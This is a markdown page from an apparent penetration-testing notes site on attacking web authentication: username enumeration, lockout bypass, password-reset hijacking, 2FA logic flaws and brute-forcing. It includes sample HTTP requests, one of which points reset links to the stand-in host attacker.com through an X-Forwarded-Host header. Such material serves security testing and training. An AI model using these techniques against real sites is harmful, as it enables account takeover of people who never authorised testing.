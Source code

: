 ```yaml
---
title: "Authentication"
weight: 2
description: "Explore key authentication testing techniques like username enumeration, password reset flaws, 2FA bypasses, and account lockout analysis."
---
```


# Authentication

## Username Enumeration

Finding valid usernames is the first step in many attacks. Test every feature interacting with user accounts (e.g., login, registration, password recovery).

{{< details summary="Common Default Usernames" >}}
Default usernames to test:

```sh
admin
administrator
root
firstname.lastname@somecompany.com
test
guest
```
{{< /details >}}

### Registration Form

If the application states "Account already exists" when registering a known email, it leaks user existence. 

### Response Comparison

Compare server responses when entering:
- A valid username with incorrect passwords
- An invalid username with incorrect passwords

Even minor differences in error messages can reveal valid usernames.

{{< hint style=tips >}}
Use Burp Suite's "Grep - Match" feature in Intruder to detect response variations.
{{< /hint >}}

### Response Timing Analysis

Some systems check passwords only if the username is valid. Sending an excessively long password may create a delay, indicating the username exists.

---

## Password Attacks

[Cracking passwords](/misc/password-cracking) is a key part of authentication testing.


---

## Account Locking Mechanisms

Check if accounts lock after multiple failed attempts (e.g., 3 or 5 attempts). Understand the lockout mechanism:

- **Testing Responses**: Attempt logins with an incorrect password on a locked account, then with the correct password. If responses differ, the lock might be bypassable.
- **IP-Based Lockout**: 
    - Try to see if the failed attempts counter resets if the IP owner logs in successfully. (Make sure that concurrent requests is set to 1)
    - Try bypassing by adding the `X-Forwarded-For` header.


---

## Password Reset Vulnerabilities

### Controlling the Username Parameter

If the reset request contains a `username` parameter, test if it can be changed:

```http
POST /forgot-password HTTP/2
Host: vulnerable-website.com

user=<victim>&new-pwd=NewPass123&token=xyz
```

### Predictable Password Reset URLs

Some sites use static or weakly random reset links. Test if a simple enumeration allows taking over accounts.

```http
http://vulnerable-website.com/reset-password?user=victim-user
```

### Analyze Randomness

Use **Burp Sequencer** to analyze the quality of randomness of the token.

### Hijacking Password Reset Links

Try injecting an `X-Forwarded-Host` header to change the reset link destination:

```http
POST /forgot-password HTTP/2
Host: vulnerable-website.com
X-Forwarded-Host: attacker.com

username=victim
```

---

## Two-Factor Authentication (2FA) Bypasses

### Brute-Forcing OTP

If the OTP code is short (e.g., 4-6 digits), brute-force it.

### Skipping 2FA Steps

Check if you can directly access logged-in pages without completing 2FA.

### Exploiting 2FA Logic Flaws
```http
# Step 1: Login with attacker account
POST /login HTTP/1.1
Host: vulnerable-website.com

username=attacker&password=qwerty
```

```http
# Step 2: Server sets a session cookie
HTTP/1.1 200 OK
Set-Cookie: session=attacker
```

```http
# Step 3: Request 2FA page with attacker's session
GET /login-steps/second HTTP/1.1
Cookie: session=attacker
```

```http
# Step 4: Submit the attacker's OTP using the victim's session
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: session=victim

verification-code=123456
```


---

## "Remember Me" Cookie Attacks

- Study how "Remember Me" cookies are generated (e.g., Base64 encoding or hashed values).
- Attempt brute-forcing attack.

---

## Password change

See if you can change the password of an arbitrary user. 
- Look for a hidden username parameter that you can control.
- Brute-force password when you enter your current password.
- Test all current & new password combinations.

```md
current password: <wrong>, new-password-1=XXX, new-password-2=XXX
current password: <wrong>, new-password-1=XXX, new-password-2=YYY
current password: <correct>, new-password-1=XXX, new-password-2=XXX
current password: <correct>, new-password-1=XXX, new-password-2=YYY
```